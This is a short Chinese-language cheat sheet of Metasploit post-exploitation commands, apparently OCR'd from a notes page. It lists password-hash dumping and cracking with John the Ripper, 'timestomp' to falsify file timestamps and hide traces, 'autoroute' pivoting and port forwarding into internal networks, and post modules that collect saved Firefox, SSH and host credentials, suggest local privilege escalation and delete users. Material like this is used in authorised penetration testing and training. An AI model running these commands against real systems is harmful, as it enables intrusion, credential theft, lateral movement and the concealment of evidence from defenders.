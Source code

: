 解包

```swift
use auxiliary/sniffer/psnuffle
set PCAPFILE => *.cap
```

**John The Ripper破解弱口令**

```swift
post/windows/gather/hashdump
auxiliaty/analyze/jtr_crack_fast
```

**修改文件系统MAC时间**

M: Modified

A: Accessed

C: Changed

Linux下touch指令修改

```swift
Timestomp -v 1.txt
          -f c:\\2.txt 1.txt      //获取模版时间
          -z        //全改
```

**路由转发**

获取shell后>>扫描内网 

```swift
run autoroute -s 1.1.1.0/24
              -p    //查看已添加路由
```

扫描内网

`auxiliary/scanner/portscan/tcp`

**端口转发**

获取shell后

```swift
>> portfwd -add -L [local ip] -l [local port] -r [remote ip] -p [remote port]
>> portfwd list/delete/flush
```

**POST模块**

```swift
post/windows/gather/arp_scanner

post/windows/gather/checkvm         //测试虚拟机

post/windows/gather/credentials/credential_collector        //查主机账号和hash

post/windows/gather/enum_applications       //应用扫描

post/windows/gather/enum_logged_on_users        //当前登录账号

post/multi/recon/local_exploit_suggester        //本地提权漏洞

post/windows/manage/delete_user     //删用户

post/multi/gather/env       //搜集环境信息

post/multi/gather/firefox_creds     //火狐保存账号密码

post/multi/gather/ssh_creds         //ssh
```